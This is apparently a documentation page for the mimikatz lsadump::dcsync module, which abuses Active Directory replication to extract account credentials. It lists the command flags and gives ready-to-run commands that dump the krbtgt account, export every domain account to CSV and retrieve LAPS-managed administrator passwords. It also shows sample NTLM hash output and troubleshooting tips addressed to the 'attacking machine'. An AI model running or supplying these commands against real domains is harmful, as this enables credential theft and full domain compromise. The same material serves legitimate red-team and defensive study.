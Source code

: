 | Flag | Purpose | Why use it |
| --- | --- | --- |
| `/domain:<fqdn>` | Target a specific Active Directory domain. | Required when the current logon domain is not the one you want to replicate. |
| `/dc:<fqdn>` or `/kdc:<fqdn>` | Choose the domain controller to contact. | Ensures the request hits a reachable controller or one with particular replication data. |
| `/user:<samAccountName>` | Replicate a single account by name. | Typical case for extracting a specific user or the krbtgt account. |
| `/guid:<GUID>` | Replicate by object GUID instead of name. | Useful when the object has been renamed or you want to avoid ambiguity. |
| `/all` | Iterate through objects and dump the entire domain. | Performs a full replication-style dump for large-scale analysis. |
| `/export` | Request export-friendly attribute selection. | Limits replication to attributes that are safe to write to disk. |
| `/csv` | Print results in CSV format. | Simplifies automated parsing. |
| `/deleted` | Include deleted objects. | Important when hunting for lingering deleted accounts. |
| `/uac` | Decode the `userAccountControl` flag to human-readable form. | Helps interpret account status quickly. |
| `/laps` | Resolve the attribute IDs for LAPS-managed passwords. | Necessary before requesting managed local administrator passwords. |
| `/authntlm` | Force NTLM authentication for the RPC binding. | Use when Kerberos/Negotiate is unavailable but NTLM is acceptable. |

Connection fine-tuning inherited from the RPC helper is also available: `/service`, `/altservice`,
`/protseq`, `/endpoint`, `/noauth`, `/ntlm`, `/kerberos`, `/negotiate`, `/null`, `/authuser`,
`/authdomain`, and `/authpassword` let you control the RPC binding and authentication context when Kerberos defaults are unsuitable.【F:mimikatz/modules/lsadump/kuhl_m_lsadump_dc.c†L33-L202】【F:modules/rpc/kull_m_rpc.c†L147-L215】

### Example usage
* Replicate the `krbtgt` account using integrated credentials:
  ```
  mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt
  ```
  Example output:
  ```
  ** SAM ACCOUNT **
  SAM Username         : krbtgt
  objectSid            : S-1-5-21-...
  ntlm                 : 15f0cf3b1d28a7e53cb17c9b6d8b12c7
  supplementalCredentials (Kerberos)
  ```
* Export every account in CSV format while authenticating with NTLM:
  ```
  mimikatz # lsadump::dcsync /domain:corp.local /all /csv /authntlm /authuser:CORP\backup /authpassword:P@ssw0rd!
  ```
* Request a LAPS password by GUID:
  ```
  mimikatz # lsadump::dcsync /domain:corp.local /guid:{bd8f...} /laps
  ```

### Potential errors and troubleshooting
* **`ERROR kuhl_m_lsadump_dcsync ; kull_m_rpc_createBinding 0x000006BA`** – The DC is unreachable.
  Ensure TCP/135 and high RPC ports are open and that DNS resolves the hostname.
* **`DsReplicaSync` access denied** – The account lacks the `Replicating Directory Changes` and
  `Replicating Directory Changes All` rights. Grant the rights or use a Domain Admin account.
* **`KRB_AP_ERR_SKEW`** – Time skew prevents Kerberos authentication. Sync the attacking machine’s
  clock or use `/authntlm` to fall back to NTLM.
